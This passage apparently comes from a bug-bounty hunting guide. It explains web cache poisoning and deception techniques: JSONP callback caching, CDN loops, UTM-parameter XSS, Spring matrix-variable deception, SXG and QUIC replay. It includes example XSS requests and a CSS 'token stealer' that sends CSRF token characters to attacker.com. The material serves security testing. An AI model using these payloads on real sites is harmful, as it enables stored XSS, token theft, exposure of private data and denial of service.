*   **Internal Microservices (Redis/Memcached)**: If Service A caches technical data from Service B, you can poison Service B's responses. Since there is no "WAF" between internal services, you can often inject massive payloads that would be blocked at the edge.

---

## 31. JSONP Parameter Caching

### 31.1 JSONP Parameter Caching (Stored XSS Conversion)
JSONP is an archaic cross-domain fetching technique that uses a script tag. Caching turns this transient injection into a permanent disaster.

*   **The Attack**: `GET /api/data?callback=alert(document.domain)//`
*   **The Logic**:
    1.  The attacker sends the request. The backend reflects the `callback` parameter as the JS function name.
    2.  The CDN caches the response as a valid `.js` file (since JSONP responses are served as JS).
    3.  **The Result**: For the duration of the cache, the API endpoint is now serving a malicious script. 
*   **The Chain**: Any other site that uses the "trusted" API script will now execute the attacker's code, or the attacker can simply redirect victims to the poisoned API URL directly.

---

## 32. CDN Routing Loops (Blackhole DoS)

### 32.1 CDN Routing Loops (The Eternal Gate)
This attack forces the CDN's Edge node into a recursive fetch loop, eventually leading to a resource exhaustion error that gets cached.

*   **The Attack**: `GET / HTTP/1.1 | X-Forwarded-Host: [Edge-Node-IP]` (or the CDN's own hostname).
*   **The Logic**:
    1.  The CDN receives the request and sees the `X-Forwarded-Host` pointing to itself.
    2.  Instead of fetching from the Origin, it attempts to "forward" the request back to its own Edge interface.
    3.  This creates a loop until the recursion limit or timeout is hit.
*   **The Result**: The Edge node returns a **508 Loop Detected** or **504 Gateway Timeout**.
*   **The Poison**: If the CDN caches the 504/508 error, the targeted page is permanently blackholed for all users in that geographic region.

---

## 33. Analytics Default Exclusions (The "UTM" Smuggle)

### 33.1 Analytics Default Exclusions
Most CDNs (Cloudflare, AWS CloudFront, Akamai) have default "Marketing Ignore Lists" to ensure that tracking parameters don't break cache HIT ratios.

*   **The Unkeyed List**: `utm_source`, `utm_medium`, `utm_campaign`, `gclid`, `fbclid`.
*   **The Exploit**:
    1.  CDNs are programmed to strip these parameters from the cache key calculation.
    2.  However, the Backend Proxy forwards the FULL URL (including these parameters) to the application.
    3.  If the application reflects the URL or these parameters into a Javascript `script` block or an `href`, it becomes an **unkeyed injection point**.
*   **The Attack**: `GET /?utm_source=';alert(1)//`
*   **Result**: The CDN caches the page under the `/` key, but the response body contains the reflected payload, creating a "Global Stored XSS" that hits every visitor to the homepage.

---

## 34. Cascading Style Sheet (CSS) Import Hijacking

### 34.1 CSS Import Hijacking
Targeting relative paths in stylesheets to inject malicious CSS selectors.

*   **The Vector**: `<link rel="stylesheet" href="styles/main.css">`
*   **The Poison**: Use a host-based poisoning (e.g., `X-Forwarded-Host: attacker.com`) on a page that loads CSS with relative paths.
*   **The Displacement**: If the application uses the poisoned host to build the base URL, it loads: `<link rel="stylesheet" href="https://attacker.com/styles/main.css">`.
*   **The Token Stealer**:
    ```css
    /* Attacker's main.css */
    input[name="csrf_token"][value^="a"] { background: url("https://attacker.com/log?c=a"); }
    input[name="csrf_token"][value^="b"] { background: url("https://attacker.com/log?c=b"); }
    ```
*   **Impact**: Stealthy exfiltration of CSRF tokens or personal data via background CSS requests. Since the "poisoned" page is cached, every victim's browser will fetch the attacker's CSS and start leaking data.

---

## 35. Framework Path Confusion (Matrix Variables)

### 35.1 Framework Path Confusion (Matrix Variables)
Modern Java frameworks (like Spring Boot) support "Matrix Variables"—parameters embedded directly in the path using semicolons (`;`).

*   **The Attack**: `GET /profile;x=1/css`
*   **The Logic**:
    1.  The **CDN** sees the `.css` extension and assumes it is a public static asset. It uses the full path as the cache key.
    2.  The **Spring Boot Backend** parses the semicolon and treats everything after it as metadata. It routes the request to `/profile`.
    3.  **Result**: The backend serves the victim's private dashboard. The CDN caches this private HTML under the `.css` key.
*   **Impact**: Widespread Cache Deception of sensitive user data using framework-level parsing discrepancies.

---

## 36. Signed Exchange (SXG) Cache Poisoning

### 36.1 Signed Exchange (SXG) Cache Poisoning
Signed Exchanges allow a site to "package" its response so it can be served securely by another domain (like Google Analytics or Google Search cache).

*   **The Concept**: Poisoning the cryptographic bundle on the origin server.
*   **The Attack**:
    1.  An attacker uses a standard poisoning technique (like unkeyed headers) to inject a payload into the page.
    2.  The site generates a Signed Exchange (SXG) for that poisoned page.
    3.  Google (or another SXG aggregator) fetches and caches the signed package.
*   **The Disaster**: When users visit the brand via Google Search, Google serves the **poisoned SXG package** directly from `google.com`. Because it is cryptographically signed by the original brand, the browser treats it as authentic, allowing for inescapable XSS/hijacking from a trusted domain.

---

## 37. HTTP/3 (QUIC) 0-RTT Replay Poisoning

### 37.1 HTTP/3 (QUIC) 0-RTT Replay Poisoning
HTTP/3 supports 0-RTT (Zero Round-Trip Time), allowing a client to send "Early Data" in the first packet.

*   **The Vulnerability**: 0-RTT data is susceptible to network replays.
*   **The Attack**:
    1.  An attacker captures a 0-RTT packet that triggers a state-changing operation (or a poisoned cache write) if the app improperly allows POSTs or non-idempotent GETs in early data.
    2.  The attacker replays this packet multiple times to the edge node.
*   **The Logic**: If the cache server handles 0-RTT improperly, the replayed packets can cause race conditions or force error states that get cached.
*   **Impact**: Protocol-level cache state corruption and DoS using next-generation transport features.

---

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: CRLF Injection >>](CRLF%20Injection.md) >>*


